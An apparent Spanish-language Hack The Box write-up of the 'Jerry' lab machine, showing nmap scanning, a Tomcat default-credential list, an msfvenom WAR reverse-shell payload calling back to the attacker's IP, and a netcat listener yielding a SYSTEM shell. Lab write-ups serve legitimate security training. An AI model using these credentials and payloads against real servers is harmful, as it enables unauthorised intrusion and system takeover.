 ```yaml
---
layout: single
title: HTB-Jerry
excerpt: "WriteUp de la máquina HTB Jerryype: Easy"
date: 2022-04-05
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/jerry/jerry.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/jerry/jerry.png"></centre>

[Maquina](https://app.hackthebox.com/machines/Jerry) 


## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.95 
```

```bash
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
```

Al mirar el resultado del nmap, vemos que el puerto **8080** tiene un http abierto con **Apache Tomcat** al cual accederemos a el.

<centre><img src="/assets/images/writeups/jerry/panel1.png"></centre>

Nos encontramos un panel de tomcat dónde en la parte de la derecha tenemos un link a la **managment app** la cual podemos clickar y ver que pasa.

<centre><img src="/assets/images/writeups/jerry/panel2.png"></centre>

Nos encontramos un panel de login en el cual podemos intentar iniciar sesion con las credenciales por defecto de este software.

```txt
Username:assword

admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethis
```

Vemos que las credenciales correctas son **tomcat:s3cret**.

<centre><img src="/assets/images/writeups/jerry/panel3.png"></centre>

En el caso de que salirte del panel de credenciales nos sale una página de error con las credenciales correctas.

<centre><img src="/assets/images/writeups/jerry/panel4.png"></centre>

Ahora, tenemos un control panel donde podemos subir archivos **.war**


## Explotación

Procedemos a la creacion de un archivo **.war** con **msfvenom** para devolvernos una reverseshell a nuestra máquina desde la víctima para poder controlarla.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war
```

Lo subimos a la web y le damos a deploy.

<centre><img src="/assets/images/writeups/jerry/panel5.png"></centre>

Nos ponemos en escucha con netcat y ejecutamos el war desde la **url**

```bash
nc -lvp 443 #netcat

http://10.10.10.95:8080/reverse #url
```

Obtenemos la reverseshell:

```txt
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Comprobamos que usuario somos:

```powershell
C:\apache-tomcat-7.0.88>whoami
        whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Flag de los **Usuarios**:
```powershell
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,703,808 bytes free

C:\Users\Administrator\Desktop\flags>
```